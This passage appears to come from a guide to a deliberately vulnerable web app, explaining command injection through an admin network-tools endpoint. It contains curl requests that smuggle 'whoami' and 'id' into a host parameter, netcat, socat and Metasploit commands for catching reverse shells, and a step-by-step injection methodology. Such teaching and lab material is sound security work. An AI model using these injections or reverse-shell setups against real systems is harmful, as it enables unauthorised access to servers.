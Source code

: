 ```bash
     -H "Authorization: Bearer YOUR_TOKEN"
```

#### 2. Network Tools Endpoint
```bash
# Command injection in host parameter
curl -X GET "http://target:5000/admin/network?tool=connectivity&host=8.8.8.8;whoami" \
     -H "Authorization: Bearer YOUR_TOKEN"

# Port scanning with injection
curl -X GET "http://target:5000/admin/network?tool=portscan&host=127.0.0.1;id&port=80" \
     -H "Authorization: Bearer YOUR_TOKEN"
```

## Setting Up a Listener

Before attempting reverse shell exploitation, set up a listener on your machine:

```bash
# Using netcat
nc -lvp 4444

# Using socat for better shell
socat TCP-LISTEN:4444,reuseaddr,fork EXEC:/bin/bash,pty,stderr,setsid,sigint,sane

# Using metasploit
msfconsole -q -x "use exploit/multi/handler; set payload linux/x64/shell_reverse_tcp; set LHOST YOUR_IP; set LPORT 4444; exploit"
```

## Vulnerability Indicators

**Client-side clues:**
- Direct execution warnings in the UI: "⚠️ Note: This tool directly executes system commands on the server"
- Multiple command options (ping, traceroute, nslookup, netstat, ps)
- User-controlled target input field
- Command history showing raw output

**Backend API indicators:**
- Multiple admin endpoints with system interaction
- Error messages revealing system command execution
- Timeout values suggesting command execution
- Response format showing stdout/stderr

**Testing methodology:**
1. Start with simple injection: `; whoami`
2. Test different separators: `&&`, `||`, `|`, `;`
3. Try command substitution: `$(id)`, `` `id` ``
4. Test direct API endpoints with curl
5. Attempt reverse shells if basic injection works

## Real-World Impact
